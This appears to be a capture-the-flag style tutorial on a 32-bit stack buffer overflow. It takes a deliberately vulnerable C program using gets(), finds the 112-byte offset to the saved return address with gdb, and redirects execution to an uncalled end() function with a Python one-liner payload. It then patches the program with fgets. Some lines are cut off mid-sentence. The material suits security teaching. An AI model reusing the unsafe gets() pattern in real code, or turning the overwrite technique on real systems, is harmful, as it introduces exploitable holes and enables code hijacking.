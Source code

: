 irst let's see if it is a 32 bit or 64 bit elf.

```
root@tux:/Hackery/escape/buf_ovf/b3# file b3
b3: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=04ca21b1b588df970bdcb4763cbc9e647fe73c94, not stripped
```

Now that we know it is a 32 bit elf, let's take a look at the source code...

```
#include <stdio.h>
#include <stdlib.h>

void fun0()
{
        char buf0[100];
        printf("What is 1 divided by 0?\n");
        gets(buf0);
}


int main()
{
        printf("To reach the end of this room, you must answer one simple question with base 10 numbers.\n");
        fun0();
}

void end()
{
        printf("That is one way of reaching the end. Level Cleared\n");
}
```

So we can see here, our objective is to get the code to run the end() function. However it isn't called anywhere in the code, or given the oppurtunity to through th euse of something like an if then stat$
in the fun0() function, it has a buffer overflow vulnerabillity. We can use the buffer overflow vulnerabillity to overflow the eip register (since it is 32 bit) to change the return address to that of th$

We will need to calculate the difference between the start of our input and where the eip register is stored. For this we can use gdb.

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b3$ gdb ./b3
```

One wall of text later...

```
gdb-peda$ disas fun0
Dump of assembler code for function fun0:
   0x0804843b <+0>:     push   ebp
   0x0804843c <+1>:     mov    ebp,esp
   0x0804843e <+3>:     sub    esp,0x78
   0x08048441 <+6>:     sub    esp,0xc
   0x08048444 <+9>:     push   0x8048530
   0x08048449 <+14>:    call   0x8048310 <puts@plt>
   0x0804844e <+19>:    add    esp,0x10
   0x08048451 <+22>:    sub    esp,0xc
   0x08048454 <+25>:    lea    eax,[ebp-0x6c]
   0x08048457 <+28>:    push   eax
   0x08048458 <+29>:    call   0x8048300 <gets@plt>
   0x0804845d <+34>:    add    esp,0x10
   0x08048460 <+37>:    nop
   0x08048461 <+38>:    leave
   0x08048462 <+39>:    ret
End of assembler dump.
gdb-peda$ b *fun0+34
Breakpoint 1 at 0x804845d
gdb-peda$ r
Starting program: /Hackery/escape/buf_ovf/b3/b3
To reach the end of this room, you must answer one simple question with base 10 numbers.
What is 1 divided by 0?
0000
```

Another wall of text later...

```
Breakpoint 1, 0x0804845d in fun0 ()
gdb-peda$ x $ebp-0x6c
0xffffcfcc:     0x30303030
gdb-peda$ info frame
Stack level 0, frame at 0xffffd040:
 eip = 0x804845d in fun0; saved eip = 0x8048489
 called by frame at 0xffffd060
 Arglist at 0xffffd038, args:
 Locals at 0xffffd038, Previous frame's sp is 0xffffd040
 Saved registers:
  ebp at 0xffffd038, eip at 0xffffd03c
gdb-peda$ print end
$1 = {<text variable, no debug info>} 0x8048496 <end>
```

So we have the location of where the buffer starts, which is 0xffffcfcc. In addition to that we also have the location of the eip register 0xffffd03c, and the location of the end() function 0x8048496. No$

```
root@tux:/home/guyinatuxedo# python
Python 2.7.12 (default, Nov 19 2016, 06:48:10)
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 0xffffd03c - 0xffffcfcc
112
>>> quit()
root@tux:/home/guyinatuxedo#
```

So we need to input 112 bytes in order to reach the eip register. Then we can push the eip register onto the stack in little endian. Let's make an exploit to do that.

```
root@tux:/Hackery/escape/buf_ovf/b3# python -c 'print "0"*112 + "\x96\x84\x04\x08"' | ./b3
To reach the end of this room, you must answer one simple question with base 10 numbers.
What is 1 divided by 0?
That is one way of reaching the end. Level Cleared
Segmentation fault (core dumped)
```

And just like that, we hijacked code execution and pwned the binary. Now let's patch it.

```
#include <stdio.h>
#include <stdlib.h>

void fun0()
{
        char buf0[100];
        printf("What is 1 divided by 0?\n");
        fgets(buf0, sizeof(buf0), stdin);
}


int main()
{
        printf("To reach the end of this room, you must answer one simple question with base 10 numbers.\n");
        fun0();
}

void end()
{
        printf("That is one way of reaching the end. Level Cleared\n");
}
```

Let's test our patch by trying to overflow it's buffer.

```
root@tux:/Hackery/escape/buf_ovf/b3# python -c 'print "0"*200' | ./b3_secure
To reach the end of this room, you must answer one simple question with base 10 numbers.
What is 1 divided by 0?
```




